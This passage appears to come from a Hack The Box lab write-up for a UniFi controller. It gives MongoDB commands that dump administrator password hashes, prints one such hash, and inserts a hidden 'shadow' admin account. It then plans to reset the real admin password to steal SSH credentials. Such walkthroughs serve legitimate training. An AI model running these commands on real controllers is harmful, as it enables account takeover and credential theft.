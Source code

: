     Database `ace` is the default Unifi database by some researching on Google

17. We can find out the admin credentials in the **ace** database by running after `use ace;` then `db.admin.find().forEach(printjson);`

    ![](../assets/img/htb-starting-point/62.png)

    Here, we find the x_shadow hash for *adminstrator* is *$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.*

18. By the following topic https://community.ui.com/questions/How-to-recover-access-to-a-unifi-controller-when-the-admin-password-has-been-lost-/bea32e54-c8cd-4d08-ba98-b836acebfeb4, we know that we can **reset the password of the administrator**, (there are also other ways provided by *sprocketsecurity* which are **craking the hashes** or **add our own shadow admin**)

19. We would choose to **create our own shadow admin**, as changing the password would make attention for the actual user, cracking the SHA-512 hash could take lots of time. By the following command, we can create a **SHA-512 hash** of the string **password**

    ```bash
    mkpasswd -m sha-512 password
    ```

    Insert the new admin user using `mongo` shell

    ```bash
    db.admin.insert({ "email" : "{name}@localhost.local", "last_site_name" : "default", "name" : "{name}", "time_created" : NumberLong(100019800), "x_shadow" : "{PASSWORD-HASH}" })
    ```

    > db.admin.insert({ "email" : "kogepan@localhost.local", "last_site_name" : "default", "name" : "kogepan", "time_created" : NumberLong(100019800), "x_shadow" : "$6$dmDm2G90xGJsQ1xv$jeF/BWNY.EPaO1Prr3HBiaBrhuDYiq40Jq4jLpP6jsLR8ujCoqklUTtTN52fC6jnpx8sd6EC5RDMw2JzCYXxi0" })

    ![](../assets/img/htb-starting-point/63.png)

    Upon successful insertion, we can log into the management dashboard of the UniFi Network.

20. However, the above method of creating a new account would lead to a new UI, causing us cannot steal the SSH credentials in old UI. We would update the password of the `administrator` into `password` and login as user `administrator`
